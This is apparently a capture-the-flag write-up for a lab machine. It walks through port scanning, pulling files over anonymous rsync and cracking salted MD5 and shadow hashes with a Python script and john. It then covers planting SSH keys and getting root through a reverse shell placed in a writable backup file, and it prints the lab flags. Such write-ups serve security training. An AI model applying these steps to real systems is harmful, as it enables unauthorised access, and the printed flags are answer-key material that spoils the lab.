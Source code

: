 Scan :

```sh
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 516254e8c91bab8266a85b6b83fa3294 (ECDSA)
|_  256 8a2c9a78812ba19a10bb00bfeecbf832 (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```sh
rsync -av rsync://$target:873/httpd ./
```

```sh
1|admin|7658a2741c9df3a97c819584db6e6b3c
2|triss|a0de4d7f81676c3ea9eabcadfd2536f6
```

- Easy Brute force :
```sh
import hashlib

# Function to compute the MD5 hash of a given string
def compute_md5_hash(input_string):
    return hashlib.md5(input_string.encode()).hexdigest()

# Given parameters
secure_string = '6c4972f3717a5e881e282ad3105de01e'  # Replace with actual secure string
username = 'triss'  # Replace with actual username
target_hash = 'a0de4d7f81676c3ea9eabcadfd2536f6'

# Open and read the file containing potential passwords
with open('/usr/share/wordlists/rockyou.txt', 'r') as file:
    for line in file:
        # Remove any leading/trailing whitespace characters like newlines
        password = line.strip()
        
        # Create the string to be hashed
        string_to_hash = f'{secure_string}|{username}|{password}'
        
        # Compute the hash of the string
        hashed_string = compute_md5_hash(string_to_hash)
        
        # Compare with the given hash
        if hashed_string == target_hash:
            print(f'Password found: {password}')
            break
    else:
        print('Password not found in the file.')
```

- Password found : gerald

- Foothold : We have write access and there is an ssh port open so we can create an .ssh folder with an authorized_keys to be able to connect with ssh 

- We found a backup directory we extract it on our machine and got passwd and shadow file so we tried to cracks it :

```sh
unshadow passwd shadow > unshadowed.txt 

john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

sakura           (sa)     
gerald           (jennifer)     
gerald           (triss) 
```

- User : VL{bcf845cf94864fbba7e016d9fcd3a2db} 

- We see that sakura has write permission on backup file so we modify the file un put another reverse shell and wait : 
![[sync.png]]
- Root : VL{1ce8506d2bec0abb03177353db237e1b}